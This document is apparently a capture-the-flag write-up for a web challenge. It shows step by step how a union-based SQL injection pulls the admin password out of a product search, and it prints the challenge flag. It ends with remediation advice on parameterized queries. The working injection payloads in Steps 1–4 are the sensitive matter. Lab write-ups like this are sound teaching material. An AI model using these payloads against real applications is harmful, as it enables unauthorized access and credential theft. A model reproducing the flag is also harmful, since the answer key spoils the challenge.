




# Challenge 1 · SQL Injection — ShopDB Product Search

**Category:** Web / SQLi
**Flag:** `CTF{uni0n_b4s3d_sqli_f0r_the_win}`

## Overview

A product search box drops user input straight into a SQL query. Results come back as JSON with three fields (`id`, `name`, `price`) — a strong hint that the underlying `SELECT` exposes exactly three columns. The goal: read the `password` column of the `admin` row in the `users` table.

## Step 1 — Find the column count

Probe how many columns the query returns with `ORDER BY N`:

```sql
' ORDER BY 4--
```



*"1st ORDER BY term out of range — should be between 1 and 3"* → the query has **3 columns**.

## Step 2 — Map the output

```sql
' ORDER BY 1--
```



The three columns render as `id` (numeric), `name` (text), `price` (numeric). The **`name`** slot is the clean place to surface text — that's where the flag goes.

## Step 3 — Match the UNION column count

A `UNION SELECT` must return the same number of columns. Too few triggers:



*"SELECTs to the left and right of UNION do not have the same number of result columns"* → the UNION also needs **3** values.

## Step 4 — Extract the flag

Final payload — `NULL` filler in the numeric slots, the real target in the text slot:

```sql
' UNION SELECT NULL, password, NULL FROM users WHERE username = 'admin'--
```



The injected row appears on top of the real products, with the flag sitting in the `name` field:

```
CTF{uni0n_b4s3d_sqli_f0r_the_win}
```

## Root Cause & Remediation

**Cause:** User input is concatenated directly into the SQL string with no parameterization.

**Fix:**
- Use parameterized queries / prepared statements so input is always treated as data, never SQL.
- Apply least-privilege database accounts.
- Avoid returning raw query output to the client.
